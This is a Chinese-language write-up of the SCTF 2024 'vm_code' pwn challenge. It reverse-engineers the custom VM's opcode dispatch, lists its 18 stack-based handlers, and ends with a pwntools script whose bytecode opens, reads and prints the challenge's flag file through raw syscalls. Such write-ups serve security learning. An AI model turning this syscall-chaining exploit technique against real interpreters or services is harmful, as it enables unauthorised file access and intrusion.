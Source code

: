 ```yaml
---
title: 2024-sctf
date: 2024-10-2
categories: 2024-sctf
---
```

# 前言
比赛那两天偷懒了，两天都只打了半天，到晚上就不想看了。
然后vm_code这题要是有时间的话看一下应该是能做的。赛后自己研究了一下发现还行。
这题主要是想记录一下vm题的逆向过程。
# 逆向过程
![resolve](./sctf-vmcode/resolve.png)
## 0x122f
图片中是main函数的后半段，清除rdi，rsi之后直接call +5，就跳转到了`123A`的`lea rax,code`

然后从`code+rsi`的地址取出一个字节放进rax，rsi增加一，rax-0x21之后跳转到1257

先说下这段是什么意思，很明显，rsi是起到rip的作用，`code+rsi`就是运行代码的位置。rax则是起到暂存当前执行代码的功能。

还有就是如果rax<0x21，那么跳转不成立，就会执行ud2指令，导致程序卡死利用失败。
## 0x1257
![jpm_func](./sctf-vmcode/jmp_func.png)
如果成功跳转到1257后，将rax的值暂存到rcx，然后程序取offset段地址放进rax，然后以[rax+rcx*2]的值为rax的值，加上一个基地址，最后跳转。

在offset段看到，有很多似乎不明意义的数字，不过仔细观察可以发现规律，每个有数据的byte中间都隔了一个`\x00`，也就是和刚刚看到的[rax+rcx*2]对应上了，解释了为什么rcx需要乘以2。

所以总结一下功能，就是根据输入的字节码，在offset段上寻找偏移，最后跳转到`main+209+偏移`的位置。
## 18个可执行函数
![jpm_able](./sctf-vmcode/jpm_able.png)
刚刚说了可以通过输入字节码让程序在offset段寻址并根据找到的值跳转，在ida里又可以看到有很多带有retn的函数(或者说是小代码块也可以)，猜测offset的值与这些retn的小函数偏移一一对应，验证后果然如此。
接下来就是逐个解析十八个小函数的功能，程序在vm中实现了栈功能，并且没有分配给vm寄存器的内存，所有功能都以栈为基础。实际功能在下面。
到了这一步就挺简单的了，因为程序直接给了push和syscall的功能，只要布置好栈上的值就行了。
```
rdi = sp
rbx = rbp
rsi = rip
```
```
1
pop rsi

2
pop rax;pop rcx;push (rax^rcx)

3
swap([rsp],[rsp-0x10])
4
pop rax,pop rcx,push rcx,push rax

5
push content

6
pop rax,push al

7
pop

8
shr [rsp],0x8

9
pop rax
push rax;push rax

10
shl [rsp],0x8

11
jmp(11,b'\x00')
pop rax;jmp content

12
pop rax;pop rcx;ror rax,cl;push rax

13
pop rax;pop rcx;rol rax,cl;push rax

14
pop rax;pop rcx;and rax,rcx;push rax

15
pop rax
pop rdi
pop rsi
pop rdx
syscall

16
push rsp
17
push rip

18
exit
```
# exp
```
from pwn import *
context(
    terminal = ['tmux','splitw','-h'],
    log_level="debug",
)

io = process("./pwn")

shcode = b''
shcode +=p8(5+0x21) + b'flag'
shcode +=p8(16+0x21)
shcode +=p8(5+0x21) + p32(0x0)
shcode +=p8(9+0x21)
shcode +=p8(3+0x21)
shcode +=p8(5+0x21) + p32(0x2)
shcode +=p8(15+0x21)

shcode +=p8(16+0x21)
shcode +=p8(5+0x21) + p32(0x80)
shcode +=p8(2+0x21)
shcode +=p8(5+0x21) + p32(0x80)
shcode +=p8(4+0x21)
shcode +=p8(5+0x21) + p32(0x3)
shcode +=p8(5+0x21) + p32(0)
shcode +=p8(15+0x21)

shcode +=p8(7+0x21)
shcode +=p8(16+0x21)
shcode +=p8(5+0x21) + p32(0x80)
shcode +=p8(2+0x21)
shcode +=p8(5+0x21) + p32(0x80)
shcode +=p8(4+0x21)
shcode +=p8(5+0x21) + p32(0x1)
shcode +=p8(5+0x21) + p32(0x1)
shcode +=p8(15+0x21)

io.send(shcode)

io.interactive()
```
